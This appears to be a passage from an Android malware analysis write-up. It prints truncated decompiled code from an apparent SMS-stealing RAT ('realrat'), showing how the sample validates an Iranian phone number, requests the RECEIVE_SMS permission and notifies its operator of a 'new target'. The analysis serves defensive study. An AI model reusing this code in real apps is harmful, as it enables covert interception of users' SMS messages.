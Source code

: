 ```xml
    </application>
```

## `MainActivity` Class

In the `MainActivity` class of package `ir.siqe.holo` we can see the application implementing a few calls that attempt to identify the phone number, creating a file in the shared preferences directory the stores the string info, and then going through a series of checks on the phone number. If the phone does not match the specific country code it displays the following error. 

```java
[TRUNCATED]
public class MainActivity extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.appcompat.app.AppCompatActivity, androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(realrat.siqe.holo.R.layout.activity_main);
        final SharedPreferences.Editor edit = getSharedPreferences("info", 0).edit();
        final EditText editText = (EditText) findViewById(realrat.siqe.holo.R.id.idetify_phone);
        findViewById(realrat.siqe.holo.R.id.go).setOnClickListener(new View.OnClickListener() { // from class: ir.siqe.holo.MainActivity.1
            @Override // android.view.View.OnClickListener
            public void onClick(View view) {
                if (!editText.getText().toString().matches("(\\+98|0)?9\\d{9}")) {
                    Toast.makeText(MainActivity.this, "شماره موبایل معتبر نیست", 0).show();
                    return;
                }
[TRUNCATED]
```

![Untitled](Android%20Malware%20Analysis%20Series%20-%20Part%202%201%20547625440966404b80b0a668a5d940af/Untitled.png)

Once done it attempts to ask the user for specific permissions to `RECIEVE_SMS` to the android device. It obtains the phone number string and starts the `MainActivity2` class. 

```java
[TRUNCATED]
ActivityCompat.requestPermissions(MainActivity.this, new String[]{"android.permission.RECEIVE_SMS"}, 0);
                if (Integer.valueOf(ActivityCompat.checkSelfPermission(MainActivity.this, "android.permission.RECEIVE_SMS")).intValue() == 0) {
                    edit.putString("phone", editText.getText().toString());
                    edit.commit();
                    new connect(editText.getText().toString(), "تارگت جدید نصب کرد", MainActivity.this);
                    MainActivity.this.startActivity(new Intent(MainActivity.this, MainActivity2.class));
                }
            }
        });
    }
}
```
